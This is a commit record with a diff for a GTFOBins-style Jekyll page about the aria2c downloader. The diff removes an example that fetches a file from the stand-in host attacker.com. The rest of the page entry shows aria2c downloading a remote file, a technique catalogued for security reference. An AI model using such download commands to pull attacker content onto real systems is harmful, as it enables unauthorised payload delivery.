

Before and after one commit to GTFOud/GTFOud.github.io, a Jekyll site: the page built from _gtfoud/aria2c.md, in a window 1280 px wide, cut to the strip 339-627 px from the top of the page. Shown: the whole strip, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update aria2c.md

```diff
--- a/_gtfoud/aria2c.md
+++ b/_gtfoud/aria2c.md
@@ -4,7 +4,5 @@ functions:
   file-download:
     - description: Fetch a remote file via HTTP GET request. Use `--allow-overwrite` if needed.
       code: |
-        URL=http://attacker.com/file_to_get
-        LFILE=file_to_save
         aria2c -o "$LFILE" "$URL"
 ---
```
